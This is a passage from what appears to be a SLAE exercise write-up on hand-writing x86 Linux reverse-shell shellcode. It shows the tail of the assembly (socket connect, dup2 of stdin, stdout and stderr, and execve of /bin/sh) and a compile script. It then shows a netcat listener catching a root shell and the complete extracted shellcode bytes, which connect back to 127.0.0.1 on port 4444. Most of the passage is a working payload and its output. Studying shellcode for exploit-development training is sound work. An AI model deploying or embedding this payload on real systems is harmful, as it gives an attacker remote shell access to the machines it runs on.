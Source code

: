         ;; Bring ebx back to sys_call # 3 for connect()
        inc ebx
        int 0x80 ; call sys_connect
    
        ;; call dup2 for stdin, stdout, and stderr in a loop
        xor ecx, ecx
        mov cl, 0x2 ;loop counter
        xor eax, eax
      dup2:
        mov al, 0x3f ;dup2
        int 0x80
        dec ecx
        jns dup2
    
        ;; Call execve
        xor eax, eax
        mov al, 0xb ;execve
        xor ebx, ebx
        push ebx
        push 0x68732f2f ;"sh//"
        push 0x6e69622f ;"nib/"
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80

When we compile the above shellcode using the compile.sh script below:

    #!/bin/bash
    echo '[+] Assembling with Nasm ... '
    nasm -f elf32 -o $1.o $1.nasm
    
    echo '[+] Linking ...'
    ld -o $1 $1.o
    
    echo '[+] Done!'

`root@blahblah:~/shared/SLAE/slae/exercise2# ./compile.sh reverseshellasm`

Setup a netcat listener with `nc -nlvp 4444` and run the shellcode using:

`root@blahblah:~/shared/SLAE/slae/exercise1# ./reverseshellasm`

We receive:

    #!/bin/bash
    root@blahblah:~/shared/SLAE/slae/exercise2# nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 37306
    id
    uid=0(root) gid=0(root) groups=0(root)

Excellent! Lets dump the bytes:

    root@funos:~/shared/SLAE/slae/exercise2# objdump -d ./reverseshellasm|grep '[0-9a-f]:'| \
    grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|\
    tr '\t' ' ' |sed 's/ $//g'|sed 's/ /\\x/g'|\
    paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
    "\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x53\x6a\x02\x89\xe1"
    "\xcd\x80\x31\xff\x89\xc7\x31\xc0\xb0\x66\x31\xc9\xb9\x80\x01\x01"
    "\x02\x81\xe9\x01\x01\x01\x01\x51\x66\x68\x11\x5c\x43\x66\x53\x89"
    "\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x31\xc9\xb1\x02\x31\xc0"
    "\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\xb0\x0b\x31\xdb\x53\x68\x2f"
    "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
